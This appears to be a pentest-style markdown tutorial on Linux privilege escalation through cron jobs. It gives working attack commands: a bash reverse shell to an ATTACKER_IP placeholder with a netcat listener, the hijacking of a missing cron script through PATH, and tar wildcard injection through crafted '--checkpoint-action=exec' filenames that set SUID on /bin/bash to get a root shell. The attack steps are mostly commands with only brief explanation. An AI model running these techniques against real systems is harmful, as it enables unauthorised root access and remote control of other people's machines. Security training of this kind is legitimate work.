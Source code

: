 Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under ```/etc/crontab```

![Screenshot from 2024-09-29 01-35-10](https://github.com/user-attachments/assets/3c66a139-7a4a-4044-a61d-e190d4f5fb7c)



You can see the ```backup.sh``` script was configured to run every minute with root access.

As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges. So we should edit this file to make a reverse sell.
```
#! /bin/bash

bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```
After this we should setup a listener to recieve or connection:
```
nc -nlvp <ATTACKER_PORT>
```

![Screenshot from 2024-09-29 01-46-01](https://github.com/user-attachments/assets/8d8dc417-5c7e-4eb9-920f-98cf50ece95d)

The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the ```PATH```variable in the ```/etc/cronta```b file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.

Finallly, we could creat ```antivirus.sh``` file and insert into the reverse shell code and setup a listener to recieve or connection.

Another one
----

If the crontab run a file with root access and this file contain `tar` command with ```*``` , this an indicator of privilege escalation.

****Vulnerable bash script****
```
#!/bin/bash
cd /home/ubuntu/Desktop/TarWildCardPrivEsc/
tar -zcf /home/ubuntu/Desktop/TarWildCardPrivEsc/backup.tgz *
```
* The wildcard `*` matches all files and directories in the current directory. This means all files in /home/ubuntu/Desktop/TarWildCardPrivEsc/ will be included in the backup.tgz archive.

>As an attacker, we can leverage this and create specially crafted filenames that will be interpreted as **flags** for tar, instead of actual files.

The critical two flags we will use:
```
--checkpoint=1    >>>>>>> means "execute a checkpoint every 1 file processed.
--checkpoint-action=    >>>>>> do an action every checkpoint
```
The above two commands use the exec parameter of checkpoint-action to execute commands through the tar command. This is how we’ll abuse this:

```
echo '#/!bin/bash\nchmod +s /bin/bash' > shell.sh
                     
                          #or
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/shell.sh    
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
In the backend, the whole thing is interpreted as:
```
tar -zcf /home/ubuntu/Desktop/TarWildCardPrivEsc/backup.tgz --checkpoint=1 --checkpoint=action=exec=sh shell.sh
```
The ```shell.sh``` contains a bash shell with a command that sets SUID bit to ```/bin/bash```. The second command executes the ```shell.sh```. So when the cronjob will execute the next minute, it will take those files as arguments/flags rather than a normal file name and set ```/bin/bash``` with setuid permission.

![Screenshot from 2024-09-29 04-31-59](https://github.com/user-attachments/assets/94a82170-755b-4416-9bd8-48d7f938827a)

We can see that /bin/bash now has a SUID bit set means we can execute it with root privileges and get the root shell.

Now run the below command to get the root shell.

```
/bin/bash -p
```

